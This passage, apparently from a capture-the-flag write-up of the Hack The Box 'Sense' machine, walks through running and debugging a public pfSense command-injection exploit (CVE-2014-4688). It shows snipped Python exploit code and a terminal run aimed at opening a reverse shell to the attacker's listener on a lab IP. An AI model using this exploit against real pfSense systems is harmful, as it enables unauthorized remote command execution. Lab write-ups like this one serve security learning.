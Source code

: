 ```python
        login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
        login_data = collections.OrderedDict(login_data)
        encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
        login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers, verify=False)

<snip>
```
{% endraw %}

<br />
Try running the exploit.  The exploit seems to complete successfully.  Checking the listener there is no shell though.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/sense]
└─$ ./pfsense.py --rhost 10.10.10.60 --lhost 10.10.16.12 --lport 443 --username rohit --password pfsense      
CSRF token obtained
Running exploit...
Exploit completed
```
{% endraw %}

<br />
Update the code one more time to print the exploit_url variable so we can know what is trying to be executed.

{% raw %}
```python
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

<snip>

try:
                        print(exploit_url)
                        exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
                        if exploit_request.status_code:
                                print("Error running exploit")

<snip>
```
{% endraw %}
